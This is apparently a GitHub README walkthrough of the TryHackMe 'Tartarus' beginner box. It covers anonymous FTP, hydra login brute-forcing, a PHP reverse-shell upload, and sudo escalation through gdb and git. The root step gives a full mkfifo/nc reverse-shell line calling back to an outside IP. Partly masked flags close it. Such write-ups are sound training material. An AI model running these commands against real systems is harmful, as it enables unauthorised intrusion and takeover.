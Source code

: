 # TryHackMe Tartarus

**This is an beginner box based on simple enumeration of services and basic privilege escalation techniques. Based jake**

## Task-1 Tartarus

* *Enumeration* - Doing nmap scan gave us 21,22,80 port open. 

* *Port -21* : FTP allowed us anonymous login. So typing command '*ftp IP*' and then 'anonymous' as name and password gave us a successful login. After that we can see a file named 'test.txt' and a directory '...' in the FTP shell. Get the .txt file on your shell using command '*get test.txt*'. Now go to '...' directory. It again gave a same named directory. Again going into that gave us another file named 'yougotgoodeyes.txt'. Get this file on your shell.

* Now see the content of test file. It just gave us 'vsftpd test file'. Now see for yougotgoodeyes.txt and it gives us a directory. Now we shall go on browser.

* *Port -80* : Open the link in browser. It gaves a default Apache2 page. On trying 'robots.txt' on the site gave us another directory along with a username : 'd4rckh'.

* Going on the above directory gave us two files 'credentials.txt' and 'userid'. Get these files on your machine using wget. 

* Also from FTP we got a directory. Opening that gave us a login page. So we have a list of usernames, password and a login page. Simple idea is to use hydra for password cracking. 

* Type the command ' *hydra -L userid -P credentials.txt IP http-post-form "/directoryWhichWeGotFromFTP/authenticate.php:username=^USER^&password=^PASS^:Incorrect username!* '.  This will give username. 

* Now to crack password we will use command ' *hydra -l userFromAboveResult -P credentials.txt IP http-post-form "/directoryWhichWeGotFromFTP/authenticate.php:username=^USER^&password=^PASS^:Incorrect password!* '. This will give us our password.

* Now login into the site using these creds. After that it gives us a uploading file option. We can upload our php reverse shell there. After uploading that start you nc listener. After that go to /directoryWhihcWeGotFromFTP/images/uploads/phpRevShell.php and you will get your shell.

* After logging into the shell we can see that we are 'www-data'. Go to '/home'	to see the list of users. Now type 'sudo -l' and we see that a user 'thirtytwo' can run gdb command. Now go to https://gtfobins.github.io/ to search for gdb sudo and we find one. Now type this command ' *sudo -u thirtytwo /var/www/gdb -nx -ex '!sh' -ex q* '. Now we are 'thirtytwo'.

* Again type 'sudo -l' and we see that 'd4rckh' can run git. Again go to https://gtfobins.github.io/ to search for git sudo. Now type ' *sudo -u d4rckh /usr/bin/git -p help config* ' and then type '!bash' to gain a bash shell. Now go to '/home/d4rckh'. In there we see a 'cleanup.py' file and 'user.txt' file  which is your user flag.

* We can edit this file to gain root shell. Also if you see '/etc/crontab' we can see that cleanup.py is running as a cronjob. Now edit .py file and type ' *os.system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.19.203 4444 >/tmp/f')* ' in the 'try' block and simultaneously start nc listener in other window. Wait for some time and your root shell will be spawned.

*  Now type ' *cat /root/root.txt* ' to gain root flag.

## 1. User Flag
Answer : 0f7dbb2243e692e3ad222b**********

## 2. Root Flag
Answer : 7e055812184a5fa5109d5d**********
